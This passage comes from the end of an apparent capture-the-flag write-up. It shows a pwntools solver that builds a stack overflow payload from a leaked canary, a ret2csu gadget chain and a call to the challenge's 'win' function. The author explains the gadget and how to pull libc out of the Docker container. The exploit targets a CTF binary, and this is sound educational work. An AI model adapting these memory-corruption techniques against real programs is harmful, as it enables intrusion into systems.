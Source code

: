 ```python
#     b'y' * 10,
#     canary,
#     b'\x90'*8,
#     rdx,
#     libc.address+ 0x16a64,
#     0x0,
#     rsi,
#     piebase + 0x572,
#     0x0,
#     rdi,
#     piebase + 0x579,
#     win
# )

# +++win csu (intended)+++
payload = flat(
    b'y' * 10,
    canary,
    win,
    popper,
    0x0,
    0x1,
    ord('f'),
    ord('l'),
    ord('a'),
    win_buff,
    caller,
)

p.recvuntil(b"That's great! Can you provide some extra feedback?")
p.send(payload)

p.interactive()
```
If you remember win_buff is address after canary, and when i use ret2csu the caller gadgets call [r15 + rbx*0x8] so basically it was calling function inside r15 and what inside my r15 is address that point to win functions.

Note : If you look closely i have some comments on the solver, and i don't find the correct libc version from the leak(puts), after the competition i found
out how to know libc version from Dockerile, first need to run the docker then just copy the docker libc to local 
`docker cp --follow-link 859828691e52:/srv/usr/lib/x86_64-linux-gnu/libc.so.6 ./` you need to change the container id
